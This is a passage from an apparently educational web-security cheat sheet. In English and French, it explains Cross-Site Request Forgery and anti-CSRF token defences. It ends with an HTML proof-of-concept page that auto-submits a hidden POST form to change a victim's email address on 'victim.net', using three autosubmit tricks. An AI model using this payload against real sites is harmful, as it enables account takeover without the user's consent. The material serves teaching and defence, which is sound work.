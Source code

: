 ### Cross-Site Request Forgery (CSRF)

### Cross-Site Request Forgery (CSRF) (Falsification de requête intersite)

Cross-Site Request Forgery (CSRF) is an attack that exploits the trust between a web application and its users. In a CSRF attack, an attacker tricks a victim into performing an unwanted action on a web application in which the victim is authenticated.

La falsification de requête intersite (CSRF) est une attaque qui exploite la confiance entre une application web et ses utilisateurs. Dans une attaque CSRF, un attaquant trompe une victime pour qu'elle effectue une action indésirable sur une application web sur laquelle la victime est authentifiée.

The attack works by crafting a malicious web page or email that contains a request to the target web application. When the victim visits the malicious page or clicks on the malicious link, their browser automatically sends the request to the target application, performing the unwanted action on behalf of the victim.

L'attaque fonctionne en créant une page web ou un e-mail malveillant contenant une requête vers l'application web cible. Lorsque la victime visite la page malveillante ou clique sur le lien malveillant, son navigateur envoie automatiquement la requête à l'application cible, effectuant ainsi l'action indésirable au nom de la victime.

To protect against CSRF attacks, web applications can implement countermeasures such as using anti-CSRF tokens. These tokens are unique values generated by the server and included in the HTML form. When the form is submitted, the server verifies that the token is valid, ensuring that the request is legitimate and not a result of a CSRF attack.

Pour se protéger contre les attaques CSRF, les applications web peuvent mettre en place des contre-mesures telles que l'utilisation de jetons anti-CSRF. Ces jetons sont des valeurs uniques générées par le serveur et incluses dans le formulaire HTML. Lorsque le formulaire est soumis, le serveur vérifie que le jeton est valide, garantissant ainsi que la requête est légitime et qu'il ne s'agit pas d'une attaque CSRF.

By implementing proper CSRF protection mechanisms, web applications can prevent attackers from exploiting the trust between the application and its users, ensuring the security and integrity of user actions.

En mettant en place des mécanismes de protection CSRF appropriés, les applications web peuvent empêcher les attaquants d'exploiter la confiance entre l'application et ses utilisateurs, garantissant ainsi la sécurité et l'intégrité des actions des utilisateurs.
```markup
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form method="POST" action="https://victim.net/email/change-email" id="csrfform">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
<input type="submit" value="Submit request" />
<img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
</form>
<script>
document.forms[0].submit(); //Way 3 to autosubmit
</script>
</body>
</html>
```
### Requête POST de formulaire via iframe
